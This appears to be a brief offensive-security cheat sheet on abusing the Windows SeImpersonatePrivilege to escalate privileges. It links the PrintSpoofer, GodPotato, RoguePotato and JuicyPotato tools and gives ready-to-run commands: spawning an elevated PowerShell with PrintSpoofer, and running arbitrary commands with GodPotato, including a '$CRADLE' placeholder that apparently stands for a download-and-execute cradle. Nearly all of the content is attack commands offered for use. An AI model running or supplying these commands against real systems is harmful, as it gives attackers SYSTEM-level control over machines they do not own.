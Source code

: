 # SeImpersonatePrivilege

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/)

```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

[GodPotato](https://github.com/BeichenDream/GodPotato) - Windows 2012 - 2022 or Windows 8 - 11

```powershell
.\GodPotato.exe -cmd "cmd /c whoami"
.\GodPotato.exe -cmd "$CRADLE"
```

[RoguePotato](https://github.com/antonioCoco/RoguePotato)

[JuicyPotato](https://github.com/ohpe/juicy-potato)
